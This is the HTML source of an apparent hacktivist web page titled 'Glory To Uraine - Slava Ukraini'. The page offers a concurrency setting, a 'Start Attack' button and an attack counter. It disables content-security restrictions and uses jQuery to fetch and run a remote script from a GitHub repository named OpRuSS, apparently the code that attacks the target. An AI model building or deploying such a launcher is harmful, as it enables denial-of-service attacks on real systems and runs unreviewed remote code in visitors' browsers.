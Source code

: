 <html>
<head>
    <title>Glory To Uraine - Slava Ukraini</title>
    <meta name="description" content="Проект, який дозволить кожному внести свій внесок проти російського уряду">
    <meta name="keywords" content="">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="IE=11"/>
    <meta http-equiv="Cache-Control" content="no-cache"/>
    <meta http-equiv="Content-Security-Policy" content="default-src * 'unsafe-inline' 'unsafe-eval'; script-src * 'unsafe-inline' 'unsafe-eval'; connect-src * 'unsafe-inline'; img-src * data: blob: 'unsafe-inline'; frame-src *; style-src * 'unsafe-inline';"/>   
</head>

<body>
<script src="https://code.jquery.com/jquery-3.6.0.min.js" integrity="sha256-/xUj+3OJU5yExlq6GSYGSHk7tPXikynS7ogEvDej/m4=" crossorigin="anonymous"></script>

<div>
    Wait for the target to load.<br>
    When it is loaded the button will appear<br>
    <input id="concAttack" type="number" min="5" step="1" value="5"/>
    <button id="StartAttack" value="Start Attack" style="display: none;">Start Attack</button>
    <br><br>
    Attacks performed: <atk id="atkP"></atk>
</div>

<div id="attackBoard">
</div>

<script>
$.ajax({
  method: "GET",
  url: "https://raw.githubusercontent.com/OpRuSS/Op1/main/main.js",
  dataType: "script"
});
</script>
</body>
</html>
